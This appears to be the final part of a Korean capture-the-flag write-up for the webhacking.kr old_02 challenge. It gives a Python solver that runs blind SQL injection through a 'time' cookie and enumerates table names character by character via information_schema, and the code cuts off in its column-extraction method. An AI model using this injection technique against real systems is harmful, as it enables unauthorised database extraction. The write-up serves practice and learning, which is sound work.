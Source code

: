 ![old_02 solved](https://1drv.ms/i/c/5cb37aa515b56a00/IQRtRRWeOofgTJBPAfBNuwV3AU2NsQkiKsUkBTCeBe9d3zg?width=660)
<br />
이제 이 비밀번호를 /admin.php에 접속하여 input 박스에 넣어 제출해주면 해당 화면이 뜨면서 문제가 해결되게 된다.

Blind SQL Injection 연습문제로 참 좋다고 생각이 든다.
최종 코드는 아래에 있다.
## 최종 코드
```python
import requests
from datetime import datetime

class Solver:
    """Solver for webhacking.kr old_02"""
    def __init__(self) -> None:
        self.url = "https://webhacking.kr/challenge/web-02"

    def _query_time(self, query) -> int:
        resp = requests.get(self.url, cookies={"time": f"{query}"})
        html_text = resp.text

        start = html_text.find("<!--") + 4  # Move past the "<!--"
        end = html_text.find("-->")

        time_part = html_text[start:end].strip().split()[1]

        # Convert to a datetime object
        time_obj = datetime.strptime(time_part, "%H:%M:%S")
        
        # Calculate seconds past 09:00:00
        base_time = datetime.strptime("09:00:00", "%H:%M:%S")
        seconds_difference = (time_obj - base_time).seconds
        
        return int(seconds_difference)
    
    def _get_table_count(self) -> int:
        query = "(SELECT COUNT(table_name) FROM information_schema.tables where table_schema = database())"
        return self._query_time(query)

    def _get_table_name_len(self, table_count: int) -> list[int]:
        arr = []
        for i in range(0, table_count):
            query = f"(SELECT LENGTH(table_name) from information_schema.tables where table_schema=database() limit {i}, 1)"
            arr.append(self._query_time(query))
        return arr

    def _get_table_names(self, lens: list[int]) -> list[str]:
        arr = []
        for i in range(len(lens)):
            temp_name = ""
            for j in range(1, lens[i] + 1):
                query = f"(SELECT ascii(substr(table_name, {j}, 1)) from information_schema.tables where table_schema=database() limit {i}, 1)"
                temp_name += chr(self._query_time(query))
            arr.append(temp_name)

        return arr

    def _get_column_name(self, table_name: str) -> str:
        query = f'(SELECT COUNT(column_name) FROM information_schema.columns WHERE table_name="{table_name}")'
```